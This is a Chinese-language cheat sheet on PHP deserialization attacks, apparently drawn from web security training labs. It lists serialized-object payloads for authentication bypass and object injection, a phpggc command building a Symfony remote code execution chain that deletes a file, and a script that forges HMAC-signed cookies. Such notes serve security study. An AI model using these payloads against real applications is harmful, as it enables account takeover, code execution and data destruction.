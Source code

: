 # PHP反序列化漏洞

## 身份验证绕过

1.修改序列化对象

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
|
v
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

2.修改序列化数据类型

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"in7rgz2b9qn9o6v0a072flcqamyacqgd";}
|
v
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

## 对象注入

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

易受攻击的代码：
```php
<?php
class ObjectExample
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```

Payload:
```
O:13:"ObjectExample":2:{s:10:"secretCode";N;s:5:"guess";R:2;}
```

数组：
```
a:2:{s:10:"admin_hash";N;s:4:"hmac";R:2;}
```

## 预构建的小工具链

[phpggc](https://github.com/ambionics/phpggc)

```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```

des.php
```php
<?php
$object = "phpggc生成的有效负载";
$secretKey = "加密密钥";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

在PHP源代码中查找unserialize()函数或魔术方法：

+ __construct()
+ __destruct()
+ __call()
+ __callStatic()
+ __get()
+ __set()
+ __isset()
+ __unset()
+ __sleep()
+ __wakeup()
+ __serialize()
+ __unserialize()
+ __toString()
+ __invoke()
+ __set_state()
+ __clone()
+ __debugInfo()
